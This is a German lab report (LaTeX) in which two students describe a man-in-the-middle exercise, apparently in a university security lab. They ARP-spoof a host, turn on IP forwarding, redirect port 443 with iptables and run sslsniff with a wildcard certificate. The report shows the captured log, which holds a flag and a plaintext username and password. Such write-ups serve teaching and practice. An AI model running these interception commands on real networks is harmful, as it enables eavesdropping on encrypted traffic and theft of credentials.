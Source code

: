 \documentclass[10pt,a4paper]{article}
\author{Christoph Robbert 6577945, Peter Stilow 6500440}
\title{Protokoll 6}
\begin{document}
\maketitle
 
\section*{Aufgabe 1}

\subsection*{a)}
Ein Mitschnitt mittels Wireshark auf den Workstations zeigte, dass sich auf den Workstations mit den IPs \texttt{192.26.175.11} und \texttt{192.26.175.13} ein Prozess mittels TLSv1.1 mit der IP \texttt{192.26.175.15} verbindet. Um diese Verbindung mitzuschneiden änderten wir auf der Workstation mittels 
\begin{verbatim}
arp -s 192.26.175.15 52:54:00:2c:4f:ec
\end{verbatim}
Den ARP Eintrag für die IP \texttt{192.26.175.15} auf die MAC Adresse der Kali VM auf derselben Workstation.
In der Kali VM starten wir das Tool sslsniff.
Um dieses Tool verwenden zu können, mussten wir in der Kali VM mittels
\begin{verbatim}
echo 1 > /proc/sys/net/ipv4/ip_forward
\end{verbatim} 
Das IP forwarding einschalten. Außerdem haben wir wie in der \texttt{man-page} von \texttt{sslsniff} beschrieben die Regel für IP Tables umgeschrieben, sodass alle Zugriffe auf den Port 443 auf den Port 4433 umgeleitet werden.
\begin{verbatim}
iptables -t nat -A PREROUTING -p tcp --destination-port 443  -j REDIRECT --to-ports 4433
\end{verbatim}
Danach starteten wir sslsniff mit den folgenden Parametern:
\begin{verbatim}
sslsniff  -a  -c  /usr/share/sslsniff/certs/wildcard  -s 4433 -w /tmp/sslsniff.log
\end{verbatim}
Nach kurzer Zeit fanden wir die folgenden Zeilen in der Logdatei \texttt{sslsniff.log}:
\begin{verbatim}
Hallo bernd!
Hier ist deine Flagge: 1107174691af9ff3681d2b5bdb5740b1589bae53

Neue Zugangsdaten
Benutzer: bernd
Passwort: SicheresPasswort
\end{verbatim}
Die Flagge lautet also \texttt{1107174691af9ff3681d2b5bdb5740b1589bae53}
\end{document}
